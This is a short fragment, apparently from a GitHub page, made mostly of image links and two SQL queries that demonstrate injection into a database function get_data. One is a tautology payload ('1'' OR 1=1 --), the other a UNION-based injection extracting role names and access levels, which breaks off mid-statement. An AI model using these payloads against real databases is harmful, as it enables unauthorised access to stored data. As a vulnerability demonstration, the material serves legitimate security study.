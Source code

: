 ![image](https://user-images.githubusercontent.com/56130345/206292311-d7cabea4-2309-465c-a0a4-17f5fac28732.png)

SELECT * FROM get_data('1'' OR 1=1 -- ');

![image](https://user-images.githubusercontent.com/56130345/206292226-a42a9f7d-5cc9-483d-ac42-954106459db4.png)

SELECT * FROM get_data('1'' UNION SELECT CAST(NULL AS INTEGER), CAST(role_name AS VARCHAR), CAST(access_level AS INTEGER) FR
![image](https://user-images.githubusercontent.com/56130345/206292496-d250bdaf-9773-4d84-a1e0-357b4481950a.png)
